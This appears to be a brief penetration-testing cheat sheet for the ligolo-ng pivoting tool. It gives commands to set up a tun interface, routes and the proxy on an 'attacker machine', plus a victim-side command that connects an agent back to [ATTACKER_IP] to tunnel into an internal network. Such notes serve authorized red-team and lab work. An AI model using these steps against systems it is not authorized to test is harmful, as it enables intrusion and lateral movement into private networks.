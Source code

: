 https://github.com/Nicocha30/ligolo-ng
# Attacker machine
## Create new tun interface:
```bash
sudo ip tuntap add user kali mode tun ligolo
```
```bash
sudo ip link set ligolo up
```
```bash
ip a show
```
```bash
sudo ip route add $(IP_ADDRESS)/24 dev ligolo
```
i.e.
```bash
sudo ip route add 192.168.1.0/24 dev ligolo
```
Can create self signed certs with -selfcert but -autocert should be used as we have internet access.

Use proxy from this machine:
```bash
ligolo-proxy -selfcert/-autocert
```
When the connection is receieved:
```
session
```
```
1
```
```
start
```
# Victim machine
```
./agent -connect [ATTACKER_IP]:11601
```
If cert issues:
```
-ignore-cert
```
